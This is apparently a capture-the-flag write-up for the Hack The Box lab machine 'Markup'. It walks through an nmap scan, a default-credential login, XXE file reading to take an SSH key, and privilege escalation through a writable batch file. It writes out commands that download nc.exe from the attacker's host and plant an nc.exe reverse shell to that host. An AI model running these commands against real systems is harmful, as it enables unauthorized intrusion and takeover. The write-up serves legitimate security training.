









# Markup - Very Easy

Target IP: **10.129.95.192**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.95.192 -v```

Output shows standard port 22 for ssh, port 80 running Apache version 2.4.41 for http, and port 443 for https. Additionally, we see that the OS of the remote machine is Windows.

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
| tls-alpn: 
|_  http/1.1
|_http-title: MegaShopping
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

Let's navigate to port 80.

We are presented with a simple log in form, along with a message saying "Powered by MegaCorp" at the bottom of the page. I tried looking it up, but it seems like MegaCorp is a fictitious entity created for the sake of this lab.



Let's send a log in request to the server and capture it to analyze closer.

It sends a request to ```index.php```, sets a session cookie for us, and puts the username and password as the parameters in the data section.



When entering the wrong credentials, an error message pops up on the screen through an alert box. I wonder if we can exploit this.



I have a feeling it might be simpler than finding an exploit, maybe we can log in with some default credentials?

```admin:admin``` doesn't work, but ```admin:password``` works, and we are lead to ```/home.php```.



The most interesting things here are the "Order" and "Contact" page, where we are presented with forms we can input information in.

Let's start with "Order" on ```/services.php```, sending a request and capturing it.



The request sends a POST request to ```/process.php```, and an interesting thing is that it seems to be sending our information in XML format.

The response takes in the specific category that we choose on the form and returns it in the message back to us, so whatever value we place in the ```<item></item>``` gets displayed in the HTTP response.



I wonder if we can use XXE here.

Replacing "Home Appliances" with an entity that references the source code of ```index.php``` works, and we get it returned to us.



It doesn't seem like the expect module is enabled.



We can try to manually locate important files, but I feel like we are missing something. 

Reading the page source of ```/services/php```, we find a comment saying "Modified by Daniel," potentially indicating a ```daniel``` user.



Let's try grabbing his ssh private key with the XXE vulnerability.


We got it. Let's transfer this over to our attack box, assign the right permissions, and try to login as ```daniel``` through ssh.

```
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>
```

We're in. We can proceed to get the user flag from here.

## Root Flag

Looking around for useful information, we find the ```C:\Log-Management``` directory, where there is a ```job.bat``` batch file.

Let's look at the contents.

The script seems to require being ran as administrator, and uses ```wevtutil.exe``` to clear logs.

```
daniel@MARKUP C:\Log-Management>type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

However, looking at the access control lists over this script reveals to us that regular users have full control over the script.

```
daniel@MARKUP C:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We can change the contents of the script to either initiate a reverse shell back to us as ```system```, or read the ```root.txt``` file using the elevated privileges the running script has.

Let's get ```nc.exe``` on the target machine and write a command into the script that will initiate a connection back to a listener we can start up.

```
PS C:\Log-Management> wget http://10.10.14.95:8000/nc.exe -outfile nc32.exe
daniel@MARKUP C:\Log-Management>echo C:\Log-Management\nc32.exe -e cmd.exe 10.10.14.95 4444 > C:\Log-Management\job.bat
```

Waiting a bit for the script to run, we get a shell back as the administrator.

```
┌─[us-starting-point-1-dhcp]─[10.10.14.95]─[htb-mp-3199654@htb-ffqer9osiz]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.95.192 49800
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /user
whoami /user

USER INFORMATION
----------------

User Name            SID                                         
==================== ============================================
markup\administrator S-1-5-21-103432172-3528565615-2854469147-500
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
